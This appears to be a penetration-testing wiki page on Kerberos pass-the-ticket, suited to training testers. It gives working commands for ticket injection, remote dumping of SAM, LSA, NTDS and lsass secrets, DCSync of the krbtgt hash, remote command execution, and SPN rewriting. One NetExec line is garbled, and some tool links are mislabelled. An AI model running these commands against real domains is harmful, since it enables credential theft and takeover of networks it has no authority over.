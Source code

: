 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.003
---
```


# Pass the ticket

## Theory

There are ways to come across ([cached Kerberos tickets](../credentials/dumping/cached-kerberos-tickets.md)) or forge ([overpass the hash](ptk.md), [silver ticket](forged-tickets/silver.md) and [golden ticket](forged-tickets/golden.md) attacks) Kerberos tickets. A ticket can then be used to authenticate to a system using Kerberos without knowing any password. This is called [Pass the ticket](ptt.md). Another name for this is Pass the Cache (when using tickets from, or found on, UNIX-like systems).

## Practice

{% hint style="info" %}
**Tip: convert ticket to UNIX <-> Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Injecting the ticket

* On Windows systems, tools like [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus) inject the ticket in memory. Native Microsoft tools can then use the ticket just like usual.
* On UNIX-like systems, the path to the `.ccache` ticket to use has to be referenced in the environment variable `KRB5CCNAME`

{% tabs %}
{% tab title="UNIX-like" %}
Once a ticket is obtained/created, it needs to be referenced in the `KRB5CCNAME` environment variable for it to be used by others tools.

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```
{% endtab %}

{% tab title="Windows" %}
The most simple way of injecting the ticket is to supply the `/ptt` flag directly to the command used to request/create a ticket. Both [mimikatz](https://github.com/GhostPack/Rubeus) and [Rubeus](https://github.com/GhostPack/Rubeus) accept this flag.

This can also be done manually with [mimikatz](https://github.com/GhostPack/Rubeus) using [`kerberos::ptt`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/ptt) or [Rubeus](https://github.com/GhostPack/Rubeus).

```bash
# use a .kirbi file
kerberos::ptt $ticket_kirbi_file

# use a .ccache file
kerberos::ptt $ticket_ccache_file
```

```bash
Rubeus.exe ptt /ticket:"base64 | file.kirbi"
```

It is then possible to list the tickets in memory using the `klist` command.
{% endtab %}
{% endtabs %}

### Passing the ticket

* On Windows, once Kerberos tickets are injected, they can be used natively.
* On UNIX-like systems, once the `KRB5CCNAME` variable is exported, the ticket can be used by tools that support Kerberos authentication.

{% tabs %}
{% tab title="Credentials dumping" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) scripts like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) have the ability to remotely dump hashes and LSA secrets from a machine.

```bash
secretsdump.py -k $TARGET
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](../credentials/dumping/sam-and-lsa-secrets.md)).

```bash
netexec smb $TARGETS -k --sam
netexec smb $TARGETS -k --lsa
netexecETS -k --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [NetExec](https://github.com/Pennyw0rth/NetExec) module (see [dumping credentials from lsass process memory](../credentials/dumping/lsass.md)).

```bash
netexec smb $TARGETS -k -M lsassy
netexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -k $TARGETS
```

On Windows, once the ticket is injected, it will natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync).

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}

{% tab title="Command execution" %}
Some [Impacket](https://github.com/SecureAuthCorp/impacket) scripts (Python) enable testers to execute commands on target systems with Kerberos support.

```bash
psexec.py -k 'DOMAIN/USER@TARGET'
smbexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
atexec.py -k 'DOMAIN/USER@TARGET'
dcomexec.py -k 'DOMAIN/USER@TARGET'
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets

```bash
netexec winrm $TARGETS -k -x whoami
netexec smb $TARGETS -k -x whoami
```

On Windows, legitimate tools like the [sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) ([download](https://live.sysinternals.com/)) can then be used to open a cmd using that ticket.

```bash
.\PsExec.exe -accepteula \\$TARGET cmd
```
{% endtab %}
{% endtabs %}

### Modifying the SPN

When requesting access to a service, a Service Ticket is used. It contains enough information about the user to allow the destination service to decide to grant access or not, without asking the Domain Controller. These information are stored in a protected blob inside the ST called PAC (Privilege Attribute Certificate). In theory, the user requesting access can't tamper with that PAC.

Another information stored in the ST, outside of the PAC, and unprotected, called `sname`, indicates what service the ticket is destined to be used for. This information is basically the SPN (Service Principal Name) of the target service. It's split into two elements: the service class, and the hostname.

Their are multiple service classes for multiple service types (LDAP, CIFS, HTTP and so on) (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)). The problem here is that since the SPN is not protected, there are scenarios (e.g. services configured for [constrained delegations](delegations/constrained.md)) where the service class can be modified in the ticket, allowing attackers to have access to other types of services.

{% tabs %}
{% tab title="UNIX-like" %}
This technique is implemented and attempted by default in all [Impacket](https://github.com/SecureAuthCorp/impacket) scripts when doing pass-the-ticket (Impacket tries to change the service class to something else, and calls this "AnySPN").

Impacket's tgssub.py script can also be used for manual manipulation of the service name value. _At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding this script is pending._

```bash
tgssub.py -in ticket.ccache -out newticket.ccache -altservice "cifs/target"
```
{% endtab %}

{% tab title="Windows" %}
With [Rubeus](https://github.com/GhostPack/Rubeus), it can be conducted by supplying the `/altservice` flag when using the `s4u` or the `tgssub` modules and the whole SPN can be changed (service class and/or hostname).

```powershell
Rubeus.exe tgssub /altservice:cifs /ticket:"base64 | ticket.kirbi"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.secureauth.com/blog/kerberos-delegation-spns-and-more" %}
Understand the AnySPN technique
{% endembed %}
